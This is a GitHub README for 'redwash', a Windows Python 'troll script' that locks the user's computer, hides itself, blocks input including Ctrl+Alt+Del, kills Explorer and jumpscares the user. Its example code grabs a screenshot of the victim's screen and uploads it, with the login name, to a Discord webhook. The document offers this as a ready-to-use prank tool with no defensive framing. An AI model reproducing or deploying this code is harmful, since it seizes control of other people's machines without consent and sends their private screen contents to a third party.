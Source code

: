 # redwash
A Python (for Windows) troll script that locks the user's computer and jumpscares them. Does not require UAC.

Has various optional features:
* Hide itself when run
* Block user input (including Ctrl+Alt+Del)
* Minimize all other running applications
* Spam open command prompts
* Kill Windows Explorer
* Execute other code during runtime (upload screenshot etc.)

![image](redwashed_pc.png)

## Example Usage
```python
""" redwash code implementation goes here... """

def otherCode():
    # This is an example of some code you can execute in the background when redwash is running.
    # In this example, we take a screenshot of the user's computer and upload it to a discord webhook.

    # Take a screenshot of the PC
    screenshot = ImageGrab.grab()
    buffered = BytesIO()
    screenshot.save(buffered, format="PNG")

    # Your Discord webhook URL
    webhook_url = 'your_webhook_url'

    # Prepare the payload
    files = {'file': ('screenshot.png', buffered.getvalue(), 'image/png')}
    data = {'payload_json': dumps({"content": getlogin() + " just executed the script!", "username": "redwash", "avatar_url": "https://cdn.discordapp.com/attachments/1193058123733282998/1193058403862454282/terxture.png?ex=65ab5539&is=6598e039&hm=05040b88e1d2b6500f983e13bfd262ffee851d8c973d5ff4eb1e8016ea396e6a&"})}

    # POST request to the Discord webhook
    res = post(webhook_url, files=files, data=data)

if __name__ == "__main__":
    redwash(True, True, True, True, True, False, otherCode)
```
